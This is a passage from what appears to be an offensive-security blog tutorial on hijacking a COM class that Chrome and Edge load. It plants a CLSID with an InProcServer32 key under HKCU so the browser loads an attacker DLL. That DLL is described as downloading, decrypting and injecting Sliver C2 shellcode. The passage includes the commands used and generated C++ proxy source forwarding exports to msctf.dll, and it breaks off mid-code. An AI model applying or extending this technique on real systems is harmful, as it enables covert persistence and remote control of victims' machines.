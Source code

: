 chrome now will search under `hkcr` hive, where the registry key will be found

![Desktop View](3.png){: width="1182" height="500" }

finally chrome will load `msctf.dll` set in the `InProcServer32` key that implements the class that chrome needs to use

![Desktop View](4.png){: width="961" height="151" }

we will exploit this search order by creating this class identifier `{33C53A50-F456-4884-B049-85FD643ECFED}` under 
`hkcu\software\classes\CLSID\` and create `InProcServer32` key that points to our `dll`. this will make chrome and any other 
client program who needs to use this com class to load our `dll`.

let's start by creating the `dll` first, we will create a dll that ones loaded by chrome or edge, it will download an encrypted sliver shellcode, decrypt and inject it.

to ensure chrome will still work fine after loading our dll, we must `export` and `proxy` function calls to the original dll where the actual
functionality required by chrome exists , otherwise chrome will crash after loading our dll.

as we saw above, the `dll` set in `InProcServer32` is `msctf.dll`, so this the dll we need to proxy to.

the <a href="https://github.com/mrexodia/perfect-dll-proxy">perfect-dll-proxy</a> script will generate a c++ source code that exports all the functions in `msctf.dll` and forward them to
msctf.dll and all we have to do, is add the shellcode injection functionality.

let's start by generating the dll proxy by running perfect-dll-proxy and passing `msctf.dll` to it

```shell
(python-env) deb@debian:~/Desktop/blog/InitialAccess/post/code$ python3 perfect-dll-proxy.py --help
usage: perfect-dll-proxy.py [-h] [--output OUTPUT] [--force-ordinals] dll

Generate a proxy DLL

positional arguments:
  dll                   Path to the DLL to generate a proxy for

options:
  -h, --help            show this help message and exit
  --output OUTPUT, -o OUTPUT
                        Generated C++ proxy file to write to
  --force-ordinals, -v  Force matching ordinals
(python-env) deb@debian:~/Desktop/blog/InitialAccess/post/code$ python3 perfect-dll-proxy.py msctf.dll --output loader.cpp
(python-env) deb@debian:~/Desktop/blog/InitialAccess/post/code$
```
{: .nolineno }
we will get the following dll proxy

```c++
#include <Windows.h>

#ifdef _WIN64
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\System32\\msctf.dll"
#else
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\SysWOW64\\msctf.dll"
#endif // _WIN64

#pragma comment(linker, "/EXPORT:CtfImeAssociateFocus=" DLLPATH ".CtfImeAssociateFocus")
#pragma comment(linker, "/EXPORT:CtfImeConfigure=" DLLPATH ".CtfImeConfigure")
#pragma comment(linker, "/EXPORT:CtfImeConversionList=" DLLPATH ".CtfImeConversionList")
#pragma comment(linker, "/EXPORT:CtfImeCreateInputContext=" DLLPATH ".CtfImeCreateInputContext")
#pragma comment(linker, "/EXPORT:CtfImeCreateThreadMgr=" DLLPATH ".CtfImeCreateThreadMgr")
#pragma comment(linker, "/EXPORT:CtfImeDestroy=" DLLPATH ".CtfImeDestroy")
#pragma comment(linker, "/EXPORT:CtfImeDestroyInputContext=" DLLPATH ".CtfImeDestroyInputContext")
```